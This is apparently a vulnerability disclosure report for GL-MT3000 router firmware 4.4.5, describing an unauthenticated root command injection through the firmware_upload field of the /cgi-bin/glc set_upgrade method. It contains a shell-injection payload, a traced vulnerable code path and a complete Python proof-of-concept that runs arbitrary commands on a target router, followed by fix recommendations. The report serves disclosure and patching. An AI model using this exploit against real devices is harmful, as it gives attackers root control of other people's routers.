



Submission Date: 2026.5.13
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An unauthenticated command injection vulnerability exists in the `/cgi-bin/glc` endpoint. The `modem.so` shared object exports a `set_upgrade` function that extracts the `firmware_upload` parameter from the JSON request body and passes it into `sprintf(cmd, "/usr/bin/modem_upgrade_check %s %s %s %s %s %s", firmware_upload, modem_url, target_version, hash_type, current_version, hash_value)` followed by `fork_exec(cmd)` (which invokes `/bin/sh -c`). The modem-existence gate (`find_modem_by_bus`) checks a different JSON field (`modem_url`) and does not validate `firmware_upload`. On devices with a real modem, an attacker can inject `&(cmd);#` to execute arbitrary commands as root without authentication.

The reported vulnerable flow is:

```text
Unauthenticated attacker
  -> POST /cgi-bin/glc
     {"object":"modem", "method":"set_upgrade",
      "args":{"modem_url":"http://x/x.bin", "target_version":"v0",
              "current_version":"v0", "hash_type":"sha256",
              "hash_value":"000...", "upgrade_type":"full_ota",
              "firmware_upload":"x&(id>/tmp/poc);#"}}

  -> /www/cgi-bin/glc
       dlopen("modem.so") → dlsym("set_upgrade") → handler(args)

  -> modem.so::set_upgrade (0x10A708)
       // Modem-existence gate uses modem_url field
       find_modem_by_bus(modem_url) → checks modem_url, NOT firmware_upload

       // firmware_upload passes through unvalidated
       firmware_upload = json_string_value(json_object_get(args, "firmware_upload"))

       sprintf(cmd, "/usr/bin/modem_upgrade_check %s %s %s %s %s %s",
               firmware_upload,  // ← 💣 1st unquoted %s, no gate
               modem_url, target_version, hash_type,
               current_version, hash_value);
       fork_exec(cmd);           // 💣 /bin/sh -c

  -> /bin/sh -c:
       /usr/bin/modem_upgrade_check x
       &(id>/tmp/poc)            ← 💣 RCE (backgrounded via &)
       ;#                        ← comment (trailing args ignored)
```

The `set_upgrade` function separates the modem gate from the injection parameter:





```c
// modem.so::set_upgrade (0x10A708)
// Gate checks modem_url, NOT firmware_upload:
find_modem_by_bus(modem_url);     // passes with real modem bus

// firmware_upload extracted separately — no validation:
firmware = json_string_value(json_object_get(args, "firmware_upload"));

sprintf(cmd, "/usr/bin/modem_upgrade_check %s %s %s %s %s %s",
        firmware,         // ← 💣 injected here
        modem_url,
        target_version,
        hash_type,
        current_version,
        hash_value);
fork_exec(cmd);
```

The `&` injection technique avoids blocking on the `modem_upgrade_check` helper:

```text
Normal:  firmware_upload = "http://x/firmware.bin"
         → /usr/bin/modem_upgrade_check http://x/firmware.bin ... ...
         ✅

Exploit: firmware_upload = "x&(id>/tmp/poc);#"
         → /usr/bin/modem_upgrade_check x
         → &(id>/tmp/poc)    ← backgrounded RCE
         → ;#                ← comment
```

The exploitation is shown below.



```python
#!/usr/bin/env python3
import json, ssl, sys, urllib.request

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "id"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

# firmware_upload is the 1st unquoted %s in:
# /usr/bin/modem_upgrade_check %s %s %s %s %s %s
# & prevents helper blocking; # comments out trailing args
body = {
    "object": "modem",
    "method": "set_upgrade",
    "args": {
        "modem_url": "http://127.0.0.1/x.bin",
        "target_version": "v0",
        "current_version": "v0",
        "firmware_upload": f"x&({CMD})>/tmp/p18 2>&1;#",
        "hash_type": "sha256",
        "hash_value": "0" * 64,
        "upgrade_type": "full_ota"
    }
}

req = urllib.request.Request(
    f"{TARGET}/cgi-bin/glc",
    data=json.dumps(body).encode(),
    headers={"Content-Type": "application/json"},
    method="POST",
)

resp = urllib.request.urlopen(req, timeout=10, context=ctx)
print(resp.read().decode(errors="replace")[:200])
print("[+] check /tmp/p18 on target")


```

**Fix recommendations:**

| Priority | Component | Action |
|----------|-----------|--------|
| P0 | `modem.so` set_upgrade | Replace `sprintf`+`fork_exec()` with `fork()`+`execv()` |
| P0 | `modem.so` set_upgrade | Validate `firmware_upload` as a URL via `^https?://[a-zA-Z0-9._/-]+$` |
| P0 | `/www/cgi-bin/glc` | Add authentication and method allowlist |
